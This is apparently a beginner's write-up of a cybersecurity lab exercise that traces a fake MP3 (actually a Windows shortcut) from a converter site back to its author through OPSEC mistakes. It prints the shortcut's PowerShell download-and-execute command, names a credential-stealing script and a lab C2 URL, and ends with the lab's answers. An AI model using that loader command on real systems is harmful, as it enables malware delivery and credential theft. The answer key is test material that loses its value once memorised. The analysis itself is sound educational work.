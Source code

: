 **Investigating the Suspicious Website**

The suspicious website I analyzed was a YouTube-to-MP3 converter. These types of websites are often associated with various cyber threats, such as:

*Malvertising*: Using malicious ads to exploit vulnerabilities.

*Phishing Scams*: Tricking users into giving away sensitive information.

*Bundled Malware*: Hiding harmful software in downloads that seem legitimate.

**What I Did**:

I visited the website using the provided IP address.

To test it, I submitted a YouTube link (like this classic video).

I downloaded the output file, download.zip, and extracted its contents.

**Analyzing the Files**

Inside the extracted folder, I found two files: song.mp3 and somg.mp3. To figure out what they were, I used the file command:

*song.mp3*: A normal MP3 file with no issues.

*somg.mp3*: A Windows shortcut (.lnk) file pretending to be an MP3. Shortcut files can execute commands, so they’re often used for malicious purposes. This caught my attention, and I decided to dig deeper.

**Investigating the .lnk File with ExifTool**

To analyze the metadata of somg.mp3, I used ExifTool, a tool for extracting detailed file information. Here’s the command I ran:

`exiftool somg.mp3`

**What I Found:**

**Command Line Arguments**:
`-ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('<URL>', 'C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"`

`-ep Bypass -nop`: These flags disable PowerShell’s security restrictions.

`DownloadFile`: This command downloads a malicious script (IS.ps1) from a remote server.

`iex`: Executes the downloaded script.

**Malicious URL**:

The file was fetching a script from this URL:
`https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1`

**Understanding the Malicious Script**

The PowerShell script, once analyzed, was performing several harmful activities:

Stealing Information: It searched for cryptocurrency wallets and saved browser credentials.

Data Exfiltration: The stolen data was sent to a Command-and-Control (C2) server.

Attacker Signature: The script contained an ASCII art signature:

Created by the one and only M.M.

This signature gave me a valuable clue about the attacker’s identity.

**Tracking the Attacker: OPSEC Mistakes**

I used the signature, “Created by the one and only M.M.,” as a starting point for my search. A quick look on GitHub revealed repositories and discussions tied to the attacker. Here are some OPSEC mistakes I noticed:

*Reused Username*: The attacker used “M.M.” across multiple platforms, making them easier to trace.

*GitHub Activity*: Their public GitHub posts included identifiable information.

*Metadata*: The signature embedded in the script directly linked back to their online accounts.

**Real-Life OPSEC Failures**

To give a broader perspective, here are two famous examples of OPSEC failures:

*AlphaBay Admin*:

Reused the same email and usernames on different platforms.

Cashed out using identifiable Bitcoin wallets.

*APT1 (a Chinese Hacking Group)*:

Used predictable naming schemes in their operations.

Conducted attacks during Beijing business hours, revealing their location.

**Wrapping Up**

By analyzing malicious files, paying attention to OPSEC mistakes, and tracing digital footprints, I was able to uncover critical details about the attacker. In this case, the sloppy operational security of “M.M.” made it possible to identify them. Investigations like this show how even small clues can unravel a larger story, giving beginners like you and me the confidence to dive into cybersecurity investigations.

**Answers**:
*Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author?* **Tyler Ramsbey**

*The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?* **http://papash3ll.thm/data**

*Who is M.M? Maybe his Github profile page would provide clues?* **Mayor Malware**

*What is the number of commits on the GitHub repo where the issue was raised?* **1**

